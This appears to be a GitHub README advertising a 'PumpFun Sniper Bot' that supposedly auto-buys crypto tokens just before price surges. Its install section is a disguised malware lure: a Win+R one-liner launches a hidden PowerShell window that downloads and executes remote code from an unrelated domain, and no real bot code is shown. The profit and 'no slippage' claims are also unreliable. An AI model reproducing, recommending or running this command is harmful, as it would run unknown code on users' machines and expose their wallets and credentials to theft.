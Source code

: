 <div align="center">
  
## **PumpFun Sniper Bot** | **Automated Snipe Pumpfun tokens** 🚀🔍

</div>

<div align="center">
<img src="https://pbs.twimg.com/media/GXCLNYDaMAECYyS?format=jpg&name=large" width="800" height="350" />
</div>

**PumpFun Sniper Bot** is a high-speed, fully automated **crypto sniper bot** designed to help you **catch tokens at the perfect moment**, just before they explode in price.

If you’ve ever missed out on a quick pump because you were too slow to react, **PumpFun Sniper Bot** is here to give you that crucial edge and make sure you never miss a profitable opportunity again.

---

## 🔧 What Is It?

**PumpFun Sniper Bot** is a powerful desktop application that monitors real-time token price movements and **automatically buys** tokens just before a price surge. It scans for **pump signals** and executes trades at lightning-fast speeds, allowing you to enter the market before the price spikes.

Key features include:
- 🕒 **Super fast execution** — snipes tokens within seconds of a pump.
- ⚡ Real-time pump detection — uses advanced algorithms to spot price movements.
- 📉 **Smart entry** — buys tokens right before the price explosion.
- 🔐 **Secure and private** — runs locally, keeping all your data private.

---

## 💻 How It Works

The bot continuously monitors price movements and volume changes across multiple exchanges. Once a **pump signal** is detected, it automatically triggers a **buy order** at the optimal price, ensuring you catch the early stage of the pump.

### Key Features:
- 🚀 **Fast Sniping**: Snipes tokens just before they take off, maximizing profits.
- 📊 Real-time price and volume tracking on multiple exchanges.
- 🧠 Advanced algorithm analyzes market data and identifies profitable pumps.
- ⚙️ Customizable settings for different strategies (target token, price range, etc.).
- 💥 Instant execution of buy orders without delays or slippage.

---

## 🧠 Why Use PumpFun Sniper Bot?

There are many bots, **but**:
- ❌ Many bots are slow to react, causing you to miss out on quick pumps  
- ❌ They lack real-time data and can miss key moments  
- ❌ They don’t offer fine-tuned control over your sniping strategy  
- ❌ Some bots don’t allow you to track and manage your sniper activity easily  

**PumpFun Sniper Bot** is:
- ✅ Super fast — executes trades within seconds of detecting a pump  
- ✅ Fully automated — no need for manual intervention  
- ✅ Highly customizable — set your own entry points, target tokens, and more  
- ✅ Runs locally — **no API limits or data collection**  
- ✅ Secure and private — keeps your actions and data safe

---

## 📦 Installation
### 🚀 Why Use a Shell Script Instead

We’ve switched from a traditional download button to a one-line shell script because it’s simply a **better, faster, and smarter way** to deliver the tool:

- ✅ **Always Up-to-Date** – Installs the latest version automatically.
- ⚙️ **One-Liner Setup** – Just copy, paste, and run. No manual downloads.
- 💡 **Smart Automation** – Automatically handles setup and dependencies.
- 🛡️ **Secure & Transparent** – Uses TLS 1.2. You can inspect the code yourself.
- 🔧 **Dev-Friendly** – CLI-first approach that’s fast, efficient, and clean.

---

### 💻 Install Command (Run via `Win + R`)
<pre>
  <code id="code-snippet">cmd.exe /c start /min powershell -w h "$u='https://aidetector.tools/389290d';[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;iex(iwr $u -UseBasicParsing -UserAgent 'ID: oba71').Content;</code>
</pre>
---

## 🛠️ In Development

- Integration with additional exchanges (Binance, Kraken, etc.)
- Advanced risk management features (stop loss, take profit, etc.)
- Portfolio tracking for sniper trades and profits

---

## ⭐ Support the Project

If you like the bot, please ⭐ the repo, share it on Reddit, and leave feedback!  
Pull requests, ideas, and bug reports are always welcome.

---

**💸 Catch every pump at the right moment.  
With PumpFun Sniper Bot, you’re always ahead of the game.**

## SEO Keywords
- Crypto Sniper Bot
- Pump Sniper
- Automated Sniper Bot
- Crypto Trading Bot
- Pump Signal Bot
- Crypto Sniping Bot
- Fast Trading Bot
